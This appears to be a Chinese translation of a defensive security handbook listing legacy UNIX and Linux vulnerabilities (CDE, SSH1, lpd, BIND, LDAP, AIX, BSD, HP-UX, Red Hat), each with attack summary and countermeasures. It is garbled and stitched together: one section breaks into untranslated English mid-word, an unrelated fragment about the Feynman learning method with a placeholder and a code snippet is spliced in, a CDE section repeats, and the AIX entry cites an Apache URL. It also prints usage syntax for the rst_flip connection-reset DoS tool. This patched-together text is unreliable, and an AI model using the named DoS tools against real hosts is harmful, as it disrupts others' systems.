**漏洞：** CDE 是用于 Linux 和 UNIX 的图形用户界面，它使用网络守护进程 dtspcd。经过修改的数据包可导致缓冲区溢出，使攻击者能够以 root 权限执行任意代码。

**入侵：** 通过 inetd 或 xinetd 发出的 CDE 客户端请求可以生成 dtspcd 守护进程。网络守护进程 dtspcd 是 CDE 子进程控制服务，它处理来自客户端的请求以远程启动应用程序，通常使用 TCP 端口 6112 并具有 root 权限。dtspcd 使用的一个共享库可能在客户端协商过程中发生缓冲区溢出。与许多缓冲区溢出情况一样，攻击者可能以 root 权限运行恶意代码。当向固定的 4K 缓冲区发送指定大于 4K 值的修改数据包时，就会发生溢出，导致 4K 缓冲区末尾的内存被覆盖。

**对策：** 禁用所有不需要的服务。但是，重要的是要了解这将对您的环境产生整体影响。例如，可以禁用端口 6112；但某些网络游戏会使用它，这可能需要考虑。

一些制造商已发布针对此漏洞的补丁。查看制造商的网站以确定是否有可用的补丁。

在某些系统上，dtspcd 默认启用，因此如果没有可用的补丁，则必须明确拒绝或禁用该服务——如果已确定不需要它。这可以通过使用防火墙产品阻止该端口或禁用该服务来实现。也可以通过注释掉启用该服务的行来禁用该服务。您可以通过查看以下内容之一来确定 dtspcd 是否已启用：

```
/etc/services
dtspc 6112/tcp
```

或

```
/etc/inetd.conf
dtspc stream tcp nowait root /usr/dt/bin/dtspcd /usr/dt/bin/dtspcd
```

### **SSH1 CRC-32 中的漏洞**

**摘要：** 针对 CRC32 补偿攻击检测器的漏洞可能导致完全系统访问。

**黑客状态：** 未授权 root 访问、拒绝服务 (DoS)、任意代码执行和完全系统入侵。

#### **漏洞**

漏洞：SSH1 协议中存在的漏洞可能允许攻击者以 SSH 守护进程权限执行任意代码。使用针对补偿攻击检测器的暴力攻击，可能会实现完全的系统入侵。

#### **入侵**

如果对补偿攻击检测器进行暴力攻击，攻击者可能获得对受影响机器的完全访问。报告显示系统日志中可能有类似如下的消息：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input.
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
```

一旦系统被入侵，报告显示会安装特洛伊木马、设计用于查找其他易受攻击系统的网络扫描设备，以及其他旨在隐藏入侵者行为并允许将来访问的项目。

#### **对策**

查看制造商的网站以获取最新的安全信息。如果可能，升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 可能使用 SSH1 实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新的补丁。如果不需要 SSH，请拒绝访问。

### **lpd 中的漏洞**

#### **摘要**

行式打印机守护进程存在多个漏洞，可能导致远程攻击者获得系统的 root 访问权限。

#### **黑客状态**

未授权 root 访问、任意代码执行。

#### **漏洞**

存在多个漏洞，具体如下：

- BSD 行式打印机守护进程中可能发生缓冲区溢出情况。
- AIX 上行式打印机守护进程中可能发生缓冲区溢出情况。
- Sendmail 漏洞可能允许 root 访问。
- 可以使用欺骗性 DNS 绕过主机名认证。
- HP-UX 上行式打印机守护进程中可能发生缓冲区溢出情况。

#### **入侵**

BSD 行式打印机守护进程中可能发生缓冲区溢出情况。如果攻击者使用列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，攻击者就可以发送专门构造的打印作业到打印机并请求显示打印队列，从而导致缓冲区溢出。攻击者可以利用溢出情况以行式打印机守护进程的权限（可能是超级用户）执行任意代码。

系统上行式打印机守护进程中可能发生缓冲区溢出情况。

如果攻击者使用的系统：

- 列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中，攻击者可能利用 kill_print() 缓冲区溢出漏洞导致 DoS 情况发生；或者攻击者可能获得行式打印机守护进程的权限（通常为 root 权限）。
- 列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中，攻击者可能利用 send_status() 缓冲区溢出漏洞导致 DoS 情况发生；或者攻击者可能获得行式打印机守护进程的权限（通常为 root 权限）。
- 能够控制 DNS 服务器，攻击者可能利用 chk_fhost() 缓冲区溢出漏洞导致 DoS 情况发生；或者攻击者可能获得行式打印机守护进程的权限（通常为 root 权限）。

Sendmail 漏洞可能允许 root 访问。

因为行式打印机守护进程允许将选项传递给 sendmail，攻击者可能使用这些选项来指定不同的配置文件。这可能允许攻击者获得 root 访问权限。

可以使用欺骗性 DNS 绕过主机名认证。

通常，随多个系统一起发布的行式打印机守护进程包含一个漏洞，可能在不应授予访问权限时允许访问。如果攻击者能够控制 DNS，攻击者的 IP 地址可能被解析为打印服务器的主机名。在这种情况下，即使不应授予，访问仍会被授予。

HP-UX 上行式打印机守护进程中可能发生缓冲区溢出情况。

rpldaemon 在 HP-UX 系统上提供网络打印功能；但它也包含一个易受专门构造的打印请求攻击的漏洞。此类请求可用于在易受攻击的系统上创建任意目录和文件。因为 rpldaemon 默认以超级用户权限启用，远程攻击者可能获得系统的超级用户访问权限。因为不需要对系统的现有了解，而且 rpldaemon 默认启用，所以这些系统是攻击者的首选目标。

**对策：** 应用适当的供应商补丁以解决特定问题。禁用任何不需要使用的服务。如果需要网络打印服务，请使用防火墙（或能够进行 TCP 过滤的路由器）将访问限制为需要访问它的那些设备。

### **CDE ToolTalk 中的漏洞**

**摘要：** CDE ToolTalk RPC 数据库服务中的漏洞可能导致系统停止或特权访问。

**黑客状态：** 未授权 root 访问、任意代码执行、系统停止/重启。

**漏洞：** ToolTalk 允许应用程序跨主机和平台进行通信。它使用 ToolTalk RPC 数据库 (rpc.ttdbserverd) 来管理这些应用程序之间的通信。错误处理漏洞可能允许远程攻击者获得 rpc.ttdbserverd 进程的权限，通常为 root 访问。

**入侵：** 因为 rpc.ttdbserverd 没有提供格式字符串说明符参数或足够的输入验证，当远程攻击者构造包含格式字符串说明符的 RPC 请求时，运行 ToolTalk 的系统可能被入侵。该请求可能允许覆盖特定内存位置，从而允许执行任意代码。如果 rpc.ttdbserverd 以 root 权限安装，远程攻击者可能获得 root 访问权限。

**对策：** 使用 $ rpcinfo -p *hostname* 命令确定 rpc.ttdbserverd 是否正在运行。访问供应商的网站以确定是否有可用的补丁，如果有，请为 Linux 或 UNIX 版本应用适当的补丁。ToolTalk 数据库服务器 (rpc.ttdbserverd) 默认安装在许多 UNIX 或 Linux 实现上。如果不需要此服务，请在*仔细审查*这样做的后果后禁用它。如果需要该服务，请仅允许那些需要它的设备访问。使用防火墙（或具有端口过滤功能的路由器）阻止未授权访问。RPC 通常使用 TCP 和 UDP 端口 111。

### **OpenView 和 NetView 中的漏洞**

**摘要：** OpenView 和 NetView 中的漏洞可能导致远程攻击者获得管理访问权限。

**黑客状态：** 完全系统入侵、远程系统入侵。

**漏洞：** OpenView 和 NetView 分别是惠普和 IBM 的网络管理产品。ovac-

 tiond SNMP trap handler of OpenView and NetView that allows a remote attacker to execute arbitrary code with privilege of the ovactiond process. According to information obtained from CERT, systems running HP OpenView Network Node Manager (NNM) Version 6.1 on the following platforms may be affected:

- HP9000 Servers running HP-UX releases 10.20 and 11.00 (only)
- Sun Microsystems Solaris releases 2.x
- Microsoft Windows NT4.x/Windows 2000

Likewise, systems running Tivoli NetView Versions 5.x and 6.x on the following platforms:

- IBM AIX
- Sun Microsystems Solaris
- Compaq Tru64 UNIX
- Microsoft Windows NT4.x/Windows 2000

**入侵：** 该漏洞同时存在于 Windows 和 *NIX 平台。远程攻击者可能获得 Windows 平台上的管理员访问权限以及 *NIX 平台上的 root 访问权限。通常情况下，Windows 系统上的 ovactiond 进程配置为在 Local System 安全上下文中运行，而在 *NIX 平台上则以 user/bin 身份运行（攻击者可能利用 user/bin 访问权限获取 root 访问权限）。由于 NT 和 *NIX 平台都可能存在信任关系（而且通常确实存在），远程攻击者也有可能获取对这些设备的访问权限。OpenView 6.1 的默认配置存在漏洞。其他版本的 OpenView 的默认配置以及 NetView 5.x 和 6.x 的默认配置不存在漏洞。然而，其中任何一个都可能因特定修改而变得脆弱：在 OpenView 中，如果 trapd.conf 文件被修改，则可能出现此漏洞；在 NetView 中，如果授权用户配置了额外的事件操作并指定了潜在破坏性的 varbinds，则可能存在该漏洞。

**对策：** 查看操作系统供应商网站，找到适合您所用 OpenView 或 NetView 版本的补丁。应用该补丁。

### **轻量级目录访问协议 (LDAP) 中的漏洞**

**简介：** 多种轻量级目录访问协议 (LDAP) 实现中的多个漏洞可能导致完整的系统 compromise。

### 黑客利用状态：

特权访问、拒绝服务 (DoS)。

##### 漏洞：

轻量级目录协议允许通过 TCP 访问目录服务，包括独立 LDAP 服务或 X.500 目录服务。该服务中的多个漏洞可被利用。以下系统可能受到影响：

- Critical Path InJoin Directory Server, v 3.0, 3.1, and 4.0
- Critical Path LiveContent Directory, v 8A.3
- IBM SecureWay V3.2.1, running under Solaris and Windows 2000
- iPlanet Directory Server, v 5.0 beta and versions up to and including 4.13
- Lotus Domino R5 Servers (Enterprise, Application, and Mail), prior to 5.0.7a
- Microsoft Exchange 5.5, prior to Q303448, and Exchange 2000, prior to Q303450
- Network Associates PGP Keyserver 7.0, prior to Hotfix 2
- OpenLDAP, 1.x, prior to 1.2.12, and 2.x, prior to 2.0.8
- Oracle Internet Directory, v 2.1.1.x and 3.0.1
- Qualcomm Eudora WorldMail for Windows NT, v 2
- Teamware Office for Windows NT and Solaris, prior to v 5.3ed1

### 入侵：

LDAP 协议中存在以下漏洞：

- iPlanet Directory Server 在 LDAP 处理代码中包含多个漏洞。
- IBM SecureWay Directory 通过 LDAP 处理代码容易受到拒绝服务攻击。
- Lotus Domino R5 Server 系列在 LDAP 处理代码中包含多个漏洞。
- Critical Path 目录产品在 LDAP 处理代码中包含多个漏洞。
- Teamware Office 在 LDAP 处理代码中包含多个漏洞。
- Qualcomm Eudora WorldMail Server LDAP 处理代码中可能存在漏洞。
- Microsoft Exchange LDAP 服务容易受到拒绝服务攻击。
- Network Associates 的 PGP Keyserver 在 LDAP 处理代码中包含多个漏洞。
- Oracle Internet Directory 在 LDAP 处理代码中包含多个漏洞。
- 多个版本的 OpenLDAP 容易受到拒绝服务攻击。

由于存在多个漏洞，建议您查看每个漏洞的具体细节。但总体而言，远程攻击者可以利用这些漏洞，包括造成 DoS 条件和获取特权访问。

**对策：** 查看产品供应商的建议，确定是否有相关补丁或升级可用以解决这些问题。只允许需要访问的系统进行访问；阻止其他所有人的访问。由于 LDAP 使用 TCP/UDP 389 和 TCP/UDP 636，因此还应使用防火墙（或支持端口过滤的路由器）阻止这些端口，以限制外部攻击的风险。

### Cheese 蠕虫

**简介：** Cheese 蠕虫可导致远程拒绝服务攻击和系统 compromise。

**黑客利用状态：** 拒绝服务、系统 compromise、机密信息泄露。

**漏洞：** 监听 TCP 端口 10008 的系统可能容易受到此蠕虫的攻击。如果某个端口在 TCP 端口 10008 上接受连接，蠕虫将尝试在这些系统上运行 shell 命令。

**入侵：** 蠕虫安装在 /tmp/.cheese 中，这成为蠕虫的工作目录。perl 脚本 *cheese* 由 shell 脚本 *go* 执行。攻击系统将探测目标上的 TCP 端口 10008，在 10008 上发送 TCP 连接请求，并接受由目标发起的 10000 到 15000 端口范围内的 TCP 端口上的 TCP 连接。随后在目标上激活攻击周期。/etc/inetd.conf 文件可能被修改，inetd 服务可能重新启动。受感染的系统可能包含以下文件：

- /tmp/.cheese/
- /tmp/.cheese/ADL
- /tmp/.cheese/cheese
- /tmp/.cheese/cheese.tgz
- /tmp/.cheese/cheese.uue
- /tmp/.cheese/go
- /tmp/.cheese/psm

感染 Cheese 蠕虫的系统可能还被其他攻击/攻击者入侵，因为它可能使用了由其他此类攻击先前开放的端口。

**对策：** 由于蠕虫可以在没有用户干预的情况下自我传播，而且尽管一些公司有清除程序，如果系统被感染，建议的根除方法是将受感染的机器从任何网络中移除，运行已知良好（即没有恶意代码）版本的防病毒软件，以确定系统是否已被其他恶意代码入侵。如果系统仅包含 Cheese 蠕虫，请使用所选防病毒厂商的清除说明。如果发现其他入侵，也请查看相应的清除说明。如果可以确定所有入侵的确切时间，并且存在已知良好且经过验证的系统备份，您可能希望使用能够"清除"驱动器的实用程序来擦除驱动器。实现此目的的一种方法是使用硬盘测试实用程序，该程序将 1 和 0 写入驱动器，销毁之前存在的任何数据。

驱动器清除后，从已知良好（无病毒）的媒介重新构建机器。制造商的 CD 通常是一个好的起点。系统重建后，应用制造商推荐的补丁。安装当前的防病毒软件包并保持更新。

通过采用完善的过滤程序可以限制（不一定能避免）该漏洞的影响。使用防火墙（或支持端口过滤的路由器）来阻止不必要的端口流量。对于不需要向公众公开的所有设备，可以阻止 TCP 端口 10000 到 15000。

### TCP/IP 中的弱点

**简介：** TCP/IP 初始序列号 (ISN) 中的统计弱点可能导致 TCP 欺骗。

**黑客利用状态：** 欺骗、幻影连接和机密性 compromise。

**漏洞：** 如果可以猜测和伪造 TCP 连接的序列号，远程攻击者就可以干扰、劫持或伪造 TCP 连接。

**入侵：** TCP 连接在建立连接时使用 ISN。已经实现了随机化 ISN 的方法，包括基于时间的随机增量。尽管这些方法使猜测 ISN 变得更加困难，但统计攻击仍然可以使攻击者能够干扰、劫持或伪造 TCP 连接。这可能发生在使用未采用 RFC1948 或同等改进的 TCP 协议栈的系统上，以及未使用加密安全网络协议（即 IPSec）的系统上。

**对策：** 确保 TCP 和 TCP 设备符合 RFC1948，并在可能的情况下使用 IPSec 等加密安全网络协议。


 ## 支持文件通配的 FTP 服务器

**摘要：** FTP 缓冲区溢出漏洞可能导致未经授权的 root 访问。

**黑客攻击状态：** 未经授权的 root 访问、拒绝服务（DoS）、任意代码执行。

**漏洞：** FTP 使用文件通配将简写符号扩展为完整文件名。各种 FTP 服务器使用 glob() 函数来允许多个文件/目录的选择。此缓冲区溢出漏洞已知存在于以下系统中：

- FreeBSD 4.2
- HP-UX 11
- IRIX 6.5.x
- NetBSD 1.5
- OpenBSD 2.8
- Solaris 8

**入侵：** 远程攻击者可以利用此漏洞并导致缓冲区溢出情况发生。这种情况可能允许执行具有运行 FTP 服务器的进程权限的任意代码，这可能是 root 访问权限。

**对策：** 如果有的话，从产品制造商处应用适当的补丁。如果不需要则禁用该服务。如果需要，降低风险；仅向需要的人授予对该服务的访问权限。使用防火墙（或具有端口过滤功能的路由器）阻止所有不必要或不需要的对该服务的访问。通常，FTP 服务运行在 TCP 端口 21 上。

### BIND 漏洞

**摘要：** 利用伯克利互联网域名（BIND）漏洞可能导致系统完全受损。

**黑客攻击状态：** 系统完全受损、远程拒绝服务、配置控制。

**漏洞：** BIND 中的两个漏洞正被攻击者利用，相关代码已在公共领域流传。

**入侵：** 远程攻击者正在使用公开可用的自我复制工具包来利用 BIND（互联网联盟对域名服务（DNS）的实现）中的两个已知漏洞。首先，BIND 可能允许入侵者读取堆栈，这可能暴露环境变量。其次，事务签名（TSIG）处理代码中可能发生缓冲区溢出情况。这些工具合在一起可以使远程攻击者对其他系统执行 DoS 攻击、修改配置和二进制文件，并将机密信息公开。

**对策：** 前往操作系统制造商的网站查看是否有可用的补丁；如果有，将其应用到适当的系统上。仅允许受信任的源访问 BIND；并尽可能禁用所有不需要的服务。如果该服务仅在内部需要，确保仅向需要的人授予访问权限。在防火墙（或能够进行 TCP 过滤的路由器）处阻止其他访问，以便外部设备（包括潜在攻击者）无法获得访问权限。

### 更多 BIND 漏洞

**摘要：** 利用 BIND 漏洞可能导致系统完全受损。

**黑客攻击状态：** 系统完全受损、远程拒绝服务、配置控制。

**漏洞：** 这些漏洞包括：ISC BIND 4 输入验证错误；对 ISC BIND 服务器的查询可能泄露环境变量；ISC BIND 8 在事务签名（TSIG）处理代码中存在缓冲区溢出；以及 ISC BIND 4 在 nslookupComplain() 中存在缓冲区溢出。受影响的系统为 4.9.x 和 8.2.x，以下版本除外：

- 4.9.8
- 8.2.3
- 9.x

**入侵：** 最终，这些漏洞可能允许远程攻击者获得超级用户权限，并可能使远程攻击者能够对其他系统执行 DoS 攻击、修改配置和二进制文件，并将机密信息公开。

**对策：** 如果可能，将 BIND 升级到正在使用的版本（4.9.8 或 8.2.3）。仅允许受信任的源访问 BIND。禁用所有不需要的。如果该服务仅在内部需要，确保仅向需要的人授予访问权限。在防火墙（或能够进行 TCP 过滤的路由器）处阻止其他访问，以便外部设备（包括潜在攻击者）无法获得访问权限。

### AIX

针对 AIX (www.apache.org) 的对策解决了以下利用：密码泄露和获取远程 root 权限。

#### 密码泄露

**摘要：** 诊断命令可以揭示影子文件中的密码。

**黑客攻击状态：** 密码暴露。

**漏洞：** AIX 版本 3x/4x 及更高版本。

**入侵：** 进行故障排除时，AIX 支持团队通常会要求提供 *snap -a* 命令的输出。作为诊断工具，此命令将系统信息（包括密码）导出到空闲驱动器空间的目录中。利用这一潜在威胁，黑客可以针对 /tmp/ibmsupt/general/ 目录并找到密码文件，从而绕过密码隐藏。

**对策：** 锁定用户访问权限并监控所有管理员活动。

#### 远程 Root 权限

**摘要：** AIX *infod* 守护进程存在远程 root 登录漏洞。

**黑客攻击状态：** 未经授权的 root 访问。

**漏洞：** AIX 版本 3x/4x。

**对策：** 作为一种解决方法，禁用 *infod* 守护进程，然后从 IBM 获取您的版本补丁：

```
##### stopsrc -s infod
##### rmitab infod
##### chown root.system /usr/lpp/info/bin/infod
##### chmod 0 /usr/lpp/info/bin/infod
```

#### 远程 Root 权限

**摘要：** AIX *dtaction* 和 *home 环境处理* 存在远程 root shell 漏洞。

**黑客攻击状态：** 未经授权的 root 访问。

**漏洞：** AIX 版本 4.2。

**入侵：** AIX 中的 Info Explorer 模块用于集中管理文档；因此，它不对发送到绑定本地套接字的数据进行任何验证。结果，黑客可以向守护进程模块发送虚假数据，从而欺骗已建立的连接指向入侵者的 X 显示。连同虚假环境一起，通过发送用户标识（UID）和组标识（GID）为 0，此守护进程可能被迫以 root 权限生成此连接（来源利用程序 *infod.c*，由 Arisme 编写，列于 *Hack Attacks Revealed, Second Edition* 中）。

**对策：** 发现该溢出是由于共享库 libDtSvc.so 中的一个错误造成的。此错误已修复。也可以使用以下命令移除此功能：

```
chmod 555 /usr/dt/bin/dtaction
```

### BSD

本节涵盖了针对这些常见 BSD 利用的对策：缓冲区溢出、LPRng、DoS 和 BSD 恐慌。

#### 缓冲区溢出

**摘要：** 源自 BSD 源的 telnetd 中的缓冲区溢出漏洞可能导致未经授权的 root 访问。

**黑客攻击状态：** 未经授权的 root 访问、任意代码执行、拒绝服务（DoS）、系统停止/重启。

**漏洞：** 从 BSD 源派生的 telnetd 进程包含一个固定大小的缓冲区来存储 telrcv 的结果。由于该缓冲区未实现边界检查，如果它接收到大于缓冲区的回复，则可能发生缓冲区溢出。

**入侵：** 远程攻击者可以利用此缓冲区溢出漏洞来运行任意代码，这可能导致系统停止或允许使用 telnetd 进程的权限（通常为 root）进行访问。该漏洞存在于多个平台上。

**对策：** 从操作系统制造商处应用适当的补丁。如果供应商没有补丁，则可能可以使用 BSD 源补丁来解决问题。如果不需要该服务，请将其禁用。仅向需要它的设备授予对服务的访问权限。通过防火墙（或能够进行端口过滤的路由器）阻止对该服务的访问。由于 telnet 服务使用 TCP 端口 23，阻止对此端口的访问可以降低风险。

#### LPRng 漏洞

**摘要：** LPRng 软件是伯克利 LPR 打印假脱机程序的一个增强、扩展和可移植的实现。LPRng 打印假脱机程序为 UNIX 和类 UNIX 操作系统提供打印服务。LPRng 中的输入验证问题可能导致拒绝服务（DoS）和特权访问。

**黑客攻击状态：** 未经授权的访问、拒绝服务（DoS）。

**漏洞：** LPRng 是一种打印服务，用于多个开源操作系统发行版。已知对 syslog() 函数的两个调用缺少格式字符串参数。

**入侵：** 远程攻击者可以通过向 *snprintf()* 函数调用传递参数来利用此漏洞，从而实现任意代码执行以及分段违规。分段违规可能导致服务不可用。远程攻击者还可能能够以服务的权限执行任意代码。

**对策：** 升级到至少 LPRng 版本 3.6.25，或者如果不需要则禁用该服务。如果无法禁用该服务，请使用防火墙（或能够进行端口过滤的路由器）阻止 TCP 端口 515（由 LPRng 使用）。尽管这不会禁用该服务，但可以阻止被阻止的流量访问它。

#### DoS 攻击

**摘要：** BSD 容易受到 DoS 攻击，该攻击发送定制数据包以中断活动的 TCP 连接。

**黑客攻击状态：** 严重拥塞。

**漏洞：** 所有 BSD 版本。

**入侵：** rst_flip.c（来源见 *Hack Attacks Revealed, Second Edition*）用法：

```
rst_flip <A> <B> <A port low> <A port hi> <B port low> <B port hi> where
A and B are the target current sessions.
```

**对策：** 将 BSD 升级到最新版本。

#### BSD 恐慌

**摘要：** BSD DoS 攻击 *smack.c* 从定制的随机 IP 地址发送随机 ICMP 不可达数据包。

**漏洞：** 所有 BSD 版本。

**对策：** 将 BSD 升级到最新版本。


### HP-UX

本节介绍针对两种 HP-UX（www.unixsolutions.hp.com）DoS 漏洞的应对措施。

#### 缓冲区溢出

**简介：** HP-UX 行式打印机守护进程存在目录遍历漏洞。

**攻击状态：** 特权访问、文件控制以及任意代码执行。

**漏洞：** HP-UX 10.01、10.10、10.20、11.00 和 11.11 版本中的行式打印机守护进程存在漏洞，远程用户可利用其获取特权访问，包括超级用户权限。

**入侵方式：** rpldaemon 在 HP-UX 系统上提供网络打印功能。然而，rpldaemon 存在漏洞，容易受到特制打印请求的攻击。此类请求可用于在存在漏洞的系统上创建任意目录和文件；而且 rpldaemon 默认以超级用户权限启用，因此远程攻击者可以获取系统的超级用户访问权限。此外，由于无需了解现有系统知识，且 rpldaemon 默认启用，这些系统成为攻击者的首要目标。

**应对措施：** HP 已开发补丁以解决该漏洞。请为正在使用的 HP-UX 版本应用相应的补丁：

- HP-UX 10.01 PHCO_25107
- HP-UX 10.10 PHCO_25108
- HP-UX 10.20 PHCO_25109
- HP-UX 11.00 PHCO_25110
- HP-UX 11.11 PHCO_25111

如果不需要或未使用行式打印机守护进程，请将其禁用；同时尽可能禁用所有不必要的服务。如果该服务仅在内部需要，请阻止相应的 TCP 端口（在防火墙或支持 TCP 过滤的路由器上阻止 515 端口），以使外部设备（包括潜在攻击者）无法访问。如果启用了该服务但未应用补丁，仍将面临内部攻击的风险。

#### DoS 攻击

**简介：** 一种可能导致 IP 连接终止的 DoS 攻击。

**攻击状态：** 严重拥塞。

**漏洞：** 所有版本。

**入侵方式：** *Nuke.c*，由 Satanic Mechanic 编写（来源自 *《黑客攻击揭秘，第二版》*），是一种 DoS 攻击，几乎可以利用 ICMP 不可达消息终止任何 IP 连接。

**应对措施：** 升级到最新的操作系统版本，并过滤 ICMP。

##### *smack.c* 变种

**简介：** *smack.c* DoS 攻击（列于 *《黑客攻击揭秘，第二版》*）从自定义的随机 IP 地址发送随机 ICMP 不可达数据包。

**漏洞：** 所有版本。

**入侵方式：** 这种 DoS 攻击被设计为连接终止器，因为受害者在 */Insert* 和 *End* 部分之间插入的地址会收到大量数据包。要完全认识 smack.c 的威胁程度，需要进一步研究其功能。洪水技术（如臭名昭著的 *smurf* 攻击）被攻击者用来伪造 ICMP 回显数据包的源字段（使用目标地址），并将其发送到广播地址。结果通常是灾难性的，因为目标会收到来自本地网段各种接口的回复。

互联网控制消息协议（ICMP）发送消息数据包，将错误信息和其他相关信息报告给发送站或源端。此机制由主机和基础设施设备实现，用于通信与 IP 数据包处理相关的控制和错误信息。ICMP 消息封装是一个双重过程：消息封装在 IP 数据报中，而 IP 数据报又封装在帧中，在互联网上传输。ICMP 与数据报一样使用不可靠的通信方式。因此，ICMP 错误消息可能会丢失或重复。例如，类型 3（目标不可达）消息类型在以下几种情况下会被发出：当路由器或网关不知道如何到达目标时、当协议或应用程序未激活时、当数据报指定了不稳定的路由时，或当路由器必须对数据报进行分片但由于设置了 *Don't Fragment* 标志而无法做到时。此类消息的一个示例可能是：

```
Step 1: Begin Echo Request
Ping 206.0.125.81 (at the command prompt)
Step 2: Begin Echo Reply
Pinging 206.0.125.81 with 32 bytes of data:
```
[content]
- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


 ## 漏洞：

在 ncurses 5.0 版本中发现了可能导致缓冲区溢出的漏洞。

##### 入侵行为：

终端无关的屏幕处理由 ncurses 库提供。简而言之，ncurses 库基于 System V Release 4.0，为应用程序提供显示功能的处理能力。如果库被链接到使用 setuid 或 setgid 的程序中，该漏洞可被本地利用，从而导致缓冲区溢出情况的发生。红帽 Linux 中打包的 ncurses 基于 ncurses5，但与 ncurses4 保持 ABI 兼容。

##### 对策：

在应用勘误更新之前，请确保已应用所有先前的勘误更新（针对您的系统）。可以通过在每个受影响的服务器上运行 up2date 命令来启动红帽更新代理的交互式进程；或者您可以访问红帽网站，选择您的服务器，并为该服务器安排勘误更新。可以使用 `rpm -Fvh [filename]` 命令来更新 RPM。多个 rpm 更新可以使用 `*.rpm` 代替 `[filename]` 来完成，但请确保在指定 `*.rpm` 的目录中/从中只包含您想要更新的 RPM。

##### *OpenLDAP 文件控制*

##### 概要：

LDAP 漏洞允许移除非必要属性。

##### 攻击状态：

文件控制。

##### 漏洞：

红帽 Linux 7.0 版本（Alpha 和 i386 架构）、7.1 版本（Alpha、i386 和 ia64 架构）以及 7.2 版本（i386 和 ia64 架构）在 LDAP 2.0.0 至 2.0.19 版本中存在 LDAP 漏洞。

##### 入侵行为：

潜在攻击者可以利用此漏洞更改目录中对象的非必要属性。攻击者可以使用空列表来移除对象的非必要属性，因为 OpenLDAP 2.0.0 至 2.0.19 版本没有访问控制列表权限。

##### 对策：

在应用勘误更新之前，请确保已应用所有先前的勘误更新（针对您的系统）。可以通过在每个受影响的服务器上运行 up2date 命令来启动红帽更新代理的交互式进程；或者您可以访问红帽网站，选择您的服务器，并为该服务器安排勘误更新。可以使用 `rpm -Fvh [filename]` 命令来更新 RPM。多个 rpm 更新可以使用 `*.rpm` 代替 `[filename]` 来完成，但请确保在指定 `*.rpm` 的目录中/从中只包含您想要更新的 RPM。

#### **CDE 漏洞**

**概要：** Solaris 通用桌面环境 (CDE) 子进程控制服务存在缓冲区溢出漏洞。

**攻击状态：** 未授权 root 访问、任意代码执行。

**漏洞：** CDE 是 Linux 和 UNIX 的图形用户界面，使用网络守护进程 dtspcd。篡改后的数据包可导致缓冲区溢出，使攻击者能够以 root 权限执行任意代码。

**入侵行为：** 通过 inetd 或 xinetd 的 CDE 客户端请求可以启动 dtspcd 守护进程。网络守护进程 dtspcd 通常以 root 权限使用 TCP 端口 6112，是 CDE 子进程控制服务，处理客户端请求以远程启动应用程序。dtspcd 使用的共享库在客户端协商过程中可能允许缓冲区溢出发生。与许多缓冲区溢出情况一样，攻击者可以以 root 权限运行恶意代码。当篡改后的数据包被发送到固定的 4K 缓冲区，且指定值大于 4K 时，就会发生溢出，导致 4K 缓冲区末尾的内存被覆盖。

**对策：** 禁用所有不需要的服务——但在执行之前，请确保了解这对您的环境可能产生的整体影响。例如，端口 6112 可能被禁用，但某些网络游戏需要使用该端口，这一点需要考虑在内。一些制造商已发布针对此漏洞的补丁。查看制造商的网站，确定您的系统是否有可用补丁。

在某些系统上，dtspcd 默认启用，因此如果没有可用补丁，请仔细考虑是否需要它；如果不需要，请明确拒绝或禁用它。这可以通过使用防火墙产品阻止端口或禁用服务来实现。可以通过注释掉启用服务的行来禁用该服务。您可以通过查看以下内容之一来确定 dtspcd 是否已启用：

```
/etc/services
dtspc 6112/tcp
```

或

```
/etc/inetd.conf
dtspc stream tcp nowait root /usr/dt/bin/dtspcd /usr/dt/bin/dtspcd
```

#### **从 rsync 执行代码**

**概要：** 远程同步漏洞可允许攻击者执行任意代码或停止系统操作。

#### **rsync 漏洞**

**攻击状态：** 未 unauthorized 访问、拒绝服务、系统停止/重启。

**漏洞：** 远程同步允许目录结构复制到其他机器（本地或远程）。rsync 中存在有符号和无符号数，使 I/O 函数可被远程利用。

**入侵行为：** 攻击者可以通过伪装成 rsync 客户端或服务器来执行任意代码。攻击者还可以导致系统停止运行。这进一步增强了攻击者伪装成 rsync 客户端或服务器的能力，因为其中一个设备变得不可用。

**对策：** 将 rsync 升级到可用的最新版本。在可能的情况下，仅使用 chroot、uid 和 read-only 选项。

#### **文件处理漏洞**

**概要：** SANE 和 XSane 临时文件处理漏洞。

**攻击状态：** 文件控制/文件丢失。

**漏洞：** SANE 和 XSane 使用可预测的文件名格式写入文件，使其容易受到数据丢失的影响。

**入侵行为：** 扫描仪访问现在轻松 (SANE) 接口提供对扫描仪、数码相机和帧抓取器等捕获设备的访问。XSane 是使用 SANE 库的图形前端扫描仪接口。此接口以可预测的文件名创建临时文件，且会以跟踪符号链接的方式创建。因此，知道文件名的本地用户/攻击者可以覆盖这些文件，使数据不可用。

**对策：** 在应用勘误更新之前，请确保已应用所有先前的勘误更新（针对您的系统）。可以通过在每个受影响的服务器上运行 up2date 命令来启动红帽更新代理的交互式进程；或者您可以访问红帽网站，选择您的服务器，并为该服务器安排勘误更新。可以使用 `rpm -Fvh [filename]` 命令来更新 RPM。多个 rpm 更新可以使用 `*.rpm` 代替 `[filename]` 来完成，但请确保在指定 `*.rpm` 的目录中/从中只包含您想要更新的 RPM。

#### **Apache 漏洞**

**概要：** 红帽 Apache 文件列表漏洞。

**攻击状态：** 文件控制。

**漏洞：** HTTP 请求可导致运行 Apache 的红帽服务器显示目录内容。

**入侵行为：** 攻击者可以创建 HTTP 请求并将其发送到具有 mod_negotiation 且同时启用了 mod_autoindex 或 mod_dir 的服务器，从而使服务器响应目录内容列表，即使存在索引文件的话也是如此。

